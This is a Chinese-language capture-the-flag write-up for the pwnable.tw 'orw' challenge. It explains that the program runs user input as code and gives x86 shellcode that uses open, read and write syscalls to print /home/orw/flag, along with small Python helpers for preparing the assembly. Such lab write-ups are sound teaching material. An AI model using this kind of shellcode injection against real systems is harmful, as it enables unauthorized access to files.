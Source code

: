 # pwnable.tw 0x1 orw writeup

> 地址：[https://pwnable.tw/challenge/#2](https://pwnable.tw/challenge/#2)

<!--more-->

## 分析

扔到 Linux 虚拟机里执行一下，提示：`Give my your shellcode:`（应该是 "Give me your shellcode"），结合题目提示：

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.
```

所以解题思路应该是用编写 shellcode，利用 `open`、`read`、`write` 这三个 syscall 读取 `/home/orw/flag` 中的内容。
看反汇编内容也印证了这一猜想：在获取用户输入之后，直接把输入当作指令执行了
![-w1097](https://i.loli.net/2019/02/13/5c6413f403283.jpg ':size=600')


## PWN

下面开始编写 shellcode。先从 C 语言的角度考虑如何实现，伪代码如下：

```c
int fd = open("/home/orw/flag", 0, 0); // 打开文件
read(fd, buffer, count);  // 读取内容
write(1, buffer, count);  // 写到 stdout
```

所以 参考 [Linux System Call Table](https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls32.html) 整理成汇编代码：

```asm
; open
xor ecx, ecx     ; ecx = 0
xor edx, edx     ; edx = 0
push ecx         ; 字符串终止符
push 0x67616c66  ; "flag"
push 0x2f2f7772  ; "rw//"
push 0x6f2f2f65  ; "e//o"
push 0x6d6f682f  ; "/hom"
mov ebx, esp     ; ebx = esp, 文件路径
mov eax, 0x5     ; syscall number 5, sys_open
int 0x80         ; call

; read
mov ebx, eax  ; fd
mov ecx, esp  ; buffer
mov edx, 0x30 ; size
mov eax, 0x3  ; read
int 0x80      ; call

; write
mov ebx, 0x1  ; stdout
mov eax, 0x4  ; write
int 0x80      ; call
```

##  附录1
鉴于 `pwntools` 中 `asm()` 方法不支持注释，而我又比较喜欢写注释，所以写了一个简单的 python 函数来处理汇编代码中的注释：

```python
import re

re_pure_asm = re.compile('^(.+?)(?=;)')

def pure_asm(string):
    lines = []
    for line in string.splitlines():
        result = re_pure_asm.findall(line)
        if len(result) > 0:
            lines.append(result[0].strip())
    return '\n'.join(lines)
```

## 附录2
为了比较方便的把 `flag` 这样的字符串转换成 `0x67616c66` 这样的 16进制小端数值，也写了一个简单的 python 方法：

```python
def convert_str_to_hex(string):
    parts = []
    for ch in string:
        parts.insert(0, format(ord(ch), 'x'))
    return '0x' + ''.join(parts)
```